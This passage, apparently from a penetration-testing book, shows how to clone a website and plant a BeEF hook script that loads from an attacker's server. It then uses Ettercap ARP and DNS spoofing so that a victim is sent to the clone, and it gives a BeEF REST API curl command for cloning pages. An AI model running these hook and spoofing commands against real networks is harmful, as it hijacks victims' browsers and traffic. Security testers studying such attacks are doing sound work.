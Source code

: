 G> `y` to start Apache.
G>
G> You will need to either `wget` any files you're missing, if you are missing some, or if there are only a small number, just grab them via your browser developer tools.
G>
G> Add the BeEF hook (`<script src="http://<BeEF comms server IP address>:3000/hook.js"></script>`) into the index.html in `/var/www/`, usually at the end of the body, just before the `</body>` tag.
G>
G> From the directory where you have BeEF installed, run the BeEF ruby script: `./beef`
G>
G> Add an 'A' record of the website you have just cloned and want to spoof into Ettercap's DNS file: `echo "<domainname-you-want-to-clone.com> A <IP address that is hosting the clone>" >> /etc/ettercap/etter.dns`
G>
G> Now run Ettercap, which is going to both ARP and DNS spoof your victim, and the victim's gateway with the MItM option, using dns_spoof plugin: `ettercap -M arp:remote -P dns_spoof -q -T /<gateway IP address>/ /<victim IP address>/`.
G>
G> You can now log into the BeEF web UI.
G>
G> Now, when the victim visits your cloned web site, the URL will look legitimate, and they will have no idea that their browser is a BeEF zombie continually asking its master (the BeEF communications server) what to execute next.

T> ## BeEF Can Also Clone
T>
T> BeEF can also be used to clone web sites using its REST API, but it takes more work. The below description of how to use BeEF to do this is only for use if really necessary.
T>
T> In order to clone, once you have BeEF running:  
T> `curl -H "Content-Type: application/json: charset=UTF-8" -d '{"url":"http://<domainname-you-want-to-clone.com>", "mount":"/"}' -X POST http://127.0.0.1/api/seng/clone_page?token=<token that BeEF provides each time it starts up>;`  
T> The loop-back IP address is just the address that the BeEF REST API is listening on.  
T> When you run this command, you should get back:  
T> `{"success":true,"mount":"/"}`,  
T> BeEF should also say that it is cloning page at URL:  
T> `http://<domainname-you-want-to-clone.com>` with other information.  
T>
T> As with SET, if any resources other than a single index.html are required,
then they also have to be acquired separately. With BeEF, they need to be copied into:  
T> `/usr/share/beef-xss/extensions/social_engineering/web_cloner/cloned_pages/`.  
T> Routes have to be created in:  
T> `/usr/share/beef-xss/extensions/social_engineering/web_cloner/interceptor.rb`  
T> and also modified to add new [config "hook"](http://sourceforge.net/p/piwat/WAT-Pentoo/ci/6402fce4c6966639927acb72c516edd203c41b77/tree/bin/beef/extensions/social_engineering/web_cloner/web_cloner.rb#l17),  
T> and also added to `/usr/share/beef-xss/config.yaml`.  
T> The config.yaml file `host` seems to serve two purposes, the address to access BeEF, and where to fetch hook.js from. If I use an external address, BeEF only listens on the external interface (can not reach via loopback). I added a `hook` config which is the address that the BeEF communications server is listening on that gets inserted into the cloned web page.

